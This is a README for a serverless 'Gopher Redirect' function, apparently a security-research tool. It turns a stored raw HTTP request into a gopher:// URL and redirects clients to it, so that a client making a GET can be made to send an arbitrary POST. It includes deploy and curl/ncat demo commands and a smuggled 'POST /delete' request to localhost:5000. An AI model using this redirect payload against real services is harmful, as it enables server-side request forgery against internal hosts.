 # Gopher Redirect

This serverless function reads in a raw request from the `redirect_request.req` file, converts it to a Gopher URL, and then redirects any incoming request to that URL.

This can be extremely useful to force a client to switch from a GET request to an anrbitrary POST request (assuming the client supports Gopher).

## Deployment
Customize the file `redirect_request.req` with the plaintext request you want. The example included is a POST request to `localhost:5000/delete`. 

The function also requires the environment variable `REDIRECT_HOST`, which is where the Gopher data will be sent.

To deploy:

```
$ now -e REDIRECT_HOST="localhost:5000" --public
```

## Example usage
Any request to the function will be 307 redirected to a Gopher URL based on the supplied `redirect_request.req` file:

```
$ curl -i https://gopherredirect-htmexdltcs.now.sh/asdf
HTTP/2 307
date: Sun, 11 Nov 2018 01:07:48 GMT
location: gopher://localhost:5000/_POST /delete HTTP/1.1%0AHost: localhost:5000%0AConnection: close%0A
```

If the client follows redirects and supports Gopher, a POST request will be made:

```
$ curl -L https://gopherredirect-htmexdltcs.now.sh/asdf

$ ncat -lp 5000
POST /delete HTTP/1.1
Host: localhost:5000
Connection: close
```

